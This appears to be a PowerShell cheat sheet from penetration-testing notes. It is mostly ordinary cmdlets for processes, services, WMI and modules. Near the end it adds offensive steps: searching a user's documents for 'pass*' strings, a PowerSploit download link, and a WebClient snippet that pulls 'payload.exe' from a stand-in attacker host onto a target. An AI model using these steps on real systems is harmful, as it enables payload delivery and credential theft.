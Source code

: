 # Cmdlets
`Get-ChildItem | Format-List *` | Get all named properties associated with the object (in this case Get-ChildItem)

# Get Process
`Get-Process | Sort-Object -Unique | Select-Object ProcessName`

# Get Process, Sort Unique, Save to file
`Get-Process | Sort-Object -Unique | Select-Object ProcessName > uniq_procs.txt` 

# Get Aliases for Get-ChildItem
`Get-Alias -Definition Get-ChildItem`

# Get WMI Objects using select
`Get-WmiObject -class win32_operatingsystem | select -Property *`
# OR
`Get-WmiObject -class win32_operatingsystem | fl *`
# OR
`Get-WmiObject -class win32_operatingsystem | Format-List *`

# Sort Unique Paths for Windows Services
`Get-WmiObject -class win32_service | Sort-Object -Unique PathName | fl Pathname`

# Export as CSV
`Get-WmiObject -class win32_operatingsystem | fl * | Export-Csv C:\Users\ryane\Documents\host_info.csv`

# Access Windows Registry Hives
`cd HKLM:\`

# Select String | looking for regex pass* in any text documents at specified path
`Select-String -Path C:\Users\ryane\Documents\*.txt -Pattern pass*`
# OR
`ls -r C:\Users\ryane\Documents -File *.txt | % {sls -Path $_ -Pattern pass* }`

# Get Content
`Get-Content C:\Users\ryane\Documents\file.txt`

# Get Service
`Get-Service`

# Get Services starting with S in descending order
`Get-Service "s*" | Sort-Object Status -Descending`

#####################################
# Modules
#####################################

# Currently Imported Modules
`Get-Module`

# List All Available Modules
`Get-Module -ListAvailable`

# Import Module
`Import-Module .\module.psm1`

# PowerSploit Download 
`https://github.com/PowerShellMafia/PowerSploit/archive/master.zip`

#####################################
# Objects
#####################################

# Get List of Methods for Object
`Get-Process | Get-Member -MemberType Method`

# Get Process and Kill
`Get-Process -Name "firefox" | Kill`

# Create Object To Download file to a target system
`$webclient = New-Object System.Net.WebClient`
`$payload_url = "https://attacker_host/payload.exe"`
`$file = "C:\ProgramData\payload.exe"`
`$webclient.DownloadFile($payload_url,$file)`


